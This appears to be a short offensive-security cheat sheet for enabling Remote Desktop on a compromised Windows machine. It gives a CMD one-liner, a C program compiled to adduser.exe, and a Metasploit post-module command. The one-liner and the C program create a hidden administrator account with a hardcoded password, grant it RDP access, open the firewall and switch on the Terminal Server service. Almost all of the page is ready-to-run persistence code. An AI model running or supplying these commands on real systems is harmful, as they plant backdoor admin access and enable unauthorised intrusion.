 Sometimes we want to enable RDP for a new user when it is not already configured. 

NOTE: On older versions of windows this may now work as cleanly...

CMD One-Liner
```cmd
net user /add hackerman password123! && net localgroup administrators hackerman /add & net localgroup "Remote Desktop Users" hackerman /add & netsh advfirewall firewall set rule group="remote desktop" new enable=Yes & reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & sc config TermService start= auto
```

C Code
```c
# SEE CODE BELOW (x64)
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user hackerman password123! /add");
  i = system ("net localgroup administrators hackerman /add");
  i = system ("net localgroup \"Remote Desktop Users\" hackerman /add");
  i = system ("netsh advfirewall firewall set rule group=\"Remote Desktop\" new enable=yes");
  i = system ("reg add \"HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 0 /f");
  i = system ("sc config TermService start= auto");
  
  return 0;
}

# compile
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

Metasploit
```Metasploit
run post/windows/manage/enable_rdp
```
